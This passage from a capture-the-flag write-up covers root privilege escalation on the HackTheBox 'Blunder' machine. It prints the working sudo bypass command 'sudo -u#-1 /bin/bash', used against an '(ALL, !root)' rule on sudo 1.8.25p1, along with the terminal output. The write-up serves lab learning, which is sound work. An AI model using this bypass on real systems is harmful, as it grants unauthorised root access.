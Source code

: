 ```none
hugo@blunder:~$ sudo -l 
Password: 
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

I didn't read the output thoroughly enough when I first checked it and tried to get a shell as bash.

```none
hugo@blunder:~$ sudo /bin/bash
Sorry, user hugo is not allowed to execute '/bin/bash' as root on blunder.
```

I thought that would be too easy! Looking up the `sudoers` file configuration, this specific setting means that `hugo` can run `/bin/bash` as any user, except `root`, indicated by the `!` bang character meaning not. Doing a quick search for `(ALL, !root) /bin/bash` gives some interesting results - and a suitable exploit! The [sudo 1.8.27 - Security Bypass on exploitdb](https://www.exploit-db.com/exploits/47502) article has some documentation and simple commands to use this exploit.

> Sudo doesn't check for the existence of the specified user id and executes the arbitrary user id with the sudo priv. The bug is fixed in sudo 1.8.28.

Checking the `sudo` version on the target system shows we have a vulnerable software version.

```none
hugo@blunder:~$ sudo -V
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
```

I simply followed the commands provided in the exploit documentation to get a shell as the `root` user.

```none
hugo@blunder:~$ sudo -u#-1 /bin/bash
root@blunder:/home/hugo# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
root@blunder:/home/hugo# wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned

- Directory scan common file extensions! I seem to always miss `txt` files, add this to my methodology.
- Remember to check website source files thoroughly! There may be information in some weird places! Like different software versions.

## Useful Resources

- [HackTheBox - Blunder by ippsec](https://www.youtube.com/watch?v=G5iw8c2vXuk)
- [HTB: Blunder by 0xdf](https://0xdf.gitlab.io/2020/10/17/htb-blunder.html)
